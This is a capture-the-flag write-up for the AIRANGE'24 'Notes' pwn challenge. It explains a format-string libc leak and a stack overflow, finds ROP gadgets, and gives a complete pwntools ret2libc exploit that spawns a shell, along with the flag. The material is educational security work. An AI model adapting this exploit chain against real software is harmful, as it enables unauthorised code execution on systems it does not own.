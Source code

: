```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)


As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.


This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`. 

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

Finding **POP_RDI** and **RET**:
```bash
ROPgadget --binary libc.so.6 > gadget.txt
```

Search for `ret` and `pop rdi` in `gadget.txt`:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

![Screenshot](/static/writeups/airange24/pwn/notes11.png)

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

# Helper functions
encode = lambda e: e if type(e) == bytes else str(e).encode()  # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)     # Lambda function to convert hex string to integer

# Set up executable file and ELF context
exe = "./notes"            # Path to the executable
elf = context.binary = ELF(exe)  # Load the ELF binary
libc = elf.libc            # Get the libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()

# If GDB flag is enabled, attach to the process for debugging
if args.GDB:
    gdb.attach(io, "b *main")

# ROP gadget setup
rop = ROP(elf)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)   # Receive the leaked address and convert it to integer
print("leak @ %#x" % leak)                    # Print the leaked address


libc.address = leak - 0x29d90   # Calculating the libc base address based on the leaked address
print("base @ %#x" % libc.address)  # Printing the calculated libc base address

# ROP gadget addresses
POP_RDI = libc.address + 0x000000000002a3e5   # Address of POP RDI gadget
RET = libc.address + 0x0000000000029139        # Address of return address

payload = flat(
    cyclic(276),                             # Fill buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                                 # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),      # Address of "/bin/sh" string in libc
    RET,                                     # Return address
    libc.sym.system                         # Address of system() function in libc
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

# Sending payload
io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes12.png)

### Flag:

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```

I tried to find POP_RDI and RET using `rop.find_gadget()` but I'm not sure why it wasn't working. It might have been a syntax issue on my part. So, I did it manually.